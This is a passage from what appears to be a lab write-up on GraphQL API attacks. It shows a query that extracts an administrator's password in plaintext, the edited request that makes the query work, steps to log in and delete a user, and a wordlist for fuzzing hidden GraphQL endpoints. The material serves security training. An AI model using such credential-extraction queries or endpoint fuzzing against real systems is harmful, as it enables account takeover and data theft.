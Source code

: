 We have to build the query.

First of all the name of the query, in this case I'm going to name the query "credentials"

```graphql
query credentials {
     getUser(id:1) {
     	password
    		id
    		username
          }
}
```

If I send i see that doesn't work, unknown operation named 'log in'.

If you go to the json that is sending in the request you will see:

```json
{"query":"query credentials {\r\n     getUser(id:1) {\r\n     \tpassword\r\n    \t\tid\r\n    \t\tusername\r\n          }\r\n}","operationName":"login"}
```

This is because I'm reusing the login request that we have seen previosly. If you change the operationName to "credentials" you will see that you obtain the credentials of the first user, in this case administrator:

```json
{
  "data": {
    "getUser": {
      "password": "6skpsq1d2k29tr2w1sf6",
      "id": 1,
      "username": "administrator"
    }
  }
}
```

You can check the mutations, you will see login and changeEmail, but nothing about "deleteAccount".

En case that have deleteAccount query we can delete the user without know the password of Administrator.

One time log in you go to admin panel and delete carlos account to solve the lab.

## Finding a hidden GraphQL endpoint

In the http history we don't see any graphql endpoint, we can try to do fuzzing with more common endpoints:

```
/graphql
/graphiql
/api
/v1
/graphql/v1
/v1/graphql
/api/graphql
/graphql/api
/graphql/graphql
/graphiql/v1
/v1/graphiql
/api/graphiql
/graphiql/api
/graphiql/graphiql
```
